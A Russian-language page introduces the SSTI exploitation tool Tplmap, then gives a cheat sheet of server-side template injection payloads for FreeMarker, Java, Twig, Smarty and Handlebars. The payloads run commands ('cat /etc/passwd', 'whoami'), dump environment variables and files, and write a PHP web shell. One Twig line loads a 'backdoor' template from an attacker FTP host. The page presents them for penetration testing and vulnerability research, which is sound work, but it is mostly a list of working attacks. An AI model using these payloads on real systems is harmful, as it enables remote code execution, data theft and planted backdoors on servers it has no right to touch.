 Tplmap помогает использовать уязвимости внедрения кода и внедрения шаблонов на стороне сервера с помощью нескольких методов выхода из песочницы для получения доступа к базовой операционной системе.

Инструмент и его набор тестов разработаны для исследования класса уязвимостей SSTI и для использования в качестве наступательных инструментов безопасности во время тестов на проникновение веб-приложений.

Для получения дополнительной информации, пожалуйста, проверьте репозиторий GitHub для инструмента [здесь](https://github.com/epinna/tplmap) .

---

# Шпаргалка

```
--------------------------------------------------------------------
Polyglot:
${{<%[%'"}}%\  
--------------------------------------------------------------------
FreeMarker (Java):  
${7*7} = 49  
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }  
--------------------------------------------------------------------  
(Java):  
${7*7}  
${{7*7}}  
${class.getClassLoader()}  
${class.getResource("").getPath()}  
${class.getResource("../../../../../index.htm").getContent()}  
${T(java.lang.System).getenv()}  
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}  
--------------------------------------------------------------------  
Twig (PHP):  
{{7*7}}  
{{7*'7'}}  
{{dump(app)}}  
{{app.request.server.all|join(',')}}  
"{{'/etc/passwd'|file_excerpt(1,30)}}"@  
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}  
--------------------------------------------------------------------  
Smarty (PHP):  
{$smarty.version}  
{php}echo `id`;{/php}  
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}  
--------------------------------------------------------------------
Handlebars (NodeJS): 
wrtz{{#with "s" as |string|}}  
{{#with "e"}}  
{{#with split as |conslist|}}  
{{this.pop}}  
{{this.push (lookup string.sub "constructor")}}  
{{this.pop}}  
{{#with string.split as |codelist|}}  
{{this.pop}}  
{{this.push "return require('child_process').exec('whoami');"}}  
{{this.pop}}  
{{#each conslist}}  
{{#with (string.sub.apply 0 codelist)}}  
{{this}}  
{{/with}}  
{{/each}}  
{{/with}}  
```
